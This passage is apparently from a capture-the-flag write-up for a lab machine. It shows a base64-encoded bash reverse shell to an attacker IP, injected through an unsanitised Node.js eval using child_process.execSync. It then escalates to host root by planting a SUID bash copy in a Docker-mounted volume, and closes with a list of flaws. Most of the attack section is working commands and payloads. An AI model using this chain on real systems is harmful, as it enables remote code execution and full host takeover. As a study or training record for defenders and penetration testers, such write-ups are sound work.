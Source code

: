 ```python
response = session.post(url+endpoint, headers=headers, data=payload, stream=True) 
for chunk in response.iter_content(chunk_size=10 * 1024):
    print(chunk)
```

We used the following exploit:

```shell
nc -lvnp 4242
echo "bash -i >& /dev/tcp/10.8.165.253/4242 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjE2NS4yNTMvNDI0MiAwPiYxCg==

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjE2NS4yNTMvNDI0MiAwPiYxCg==" | base64 -d | bash

Final exploit: arguments[1].end(require('child_process').execSync('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjE2NS4yNTMvNDI0MiAwPiYxCg==" | base64 -d | bash'))

```

![](/images/umbrella/exploited.png)

Once we get a shell inside the docker we notice that we are root.
This was the final piece to exploit the flaw in the misconfigured docker volume.
In order to gain root in the actual machine we run the following commands:

```shell
cp /bin/bash ~/timeTracker-src/logs #Machine as claire-r
chown root:root bash #container as root
chmod 4777 bash #container as root
~/timeTracker-src/logs/bash -p #Machine as claire-r 
```

What is done here is making a copy of the bash binary and and give it SUID.
Since the user in the container(root) applies the modifications to the files with his id(0), we are essentially root in that specific directory that is mounted in docker.

## Flaws

- Docker registry exposed without authentication
- Environment variables with hardcoded credentials
- Eval() function without sanitization
- Web application running as root inside docker container
- Mounted volume with read/write access to a non privileged user
